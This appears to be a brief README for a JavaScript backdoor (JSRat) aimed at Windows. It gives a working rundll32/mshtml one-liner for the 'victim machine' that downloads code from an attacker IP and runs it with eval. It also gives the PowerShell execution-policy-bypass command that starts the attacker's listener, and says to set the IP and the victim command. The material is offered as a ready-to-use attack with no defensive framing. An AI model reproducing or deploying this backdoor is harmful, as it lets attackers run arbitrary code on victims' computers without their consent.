 #Javascript Backdoor

http://en.wooyun.io/2016/01/18/JavaScript-Backdoor.html

##Victim machine

```rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://192.168.174.131/connect",false);try{h.Send();B=h.ResponseText;eval(B);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}```


##Attacker machine

powershell.exe -ExecutionPolicy Bypass -File JSRat.ps1

##Important

Update the IP address in JSRat.ps1 (line 19) and the command to be executed on victim machine.
